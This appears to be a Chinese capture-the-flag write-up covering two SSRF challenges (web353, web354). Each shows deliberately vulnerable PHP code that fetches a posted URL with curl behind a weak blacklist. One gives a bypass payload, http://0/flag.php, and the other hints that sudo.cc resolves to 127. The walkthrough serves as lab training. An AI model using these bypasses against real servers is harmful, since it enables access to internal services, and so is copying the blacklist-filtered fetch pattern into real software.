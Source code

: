 ## web353

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
if(!preg_match('/localhost|127\.0\.|\。/i', $url)){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
} 
```

过滤了 127.0.0.1

我们可以通过 0 来绕过

payload

```cobol
url=http://0/flag.php
```

## web354  sudo.cc 代表 127

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
if(!preg_match('/localhost|1|0|。/i', $url)){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
} 
```
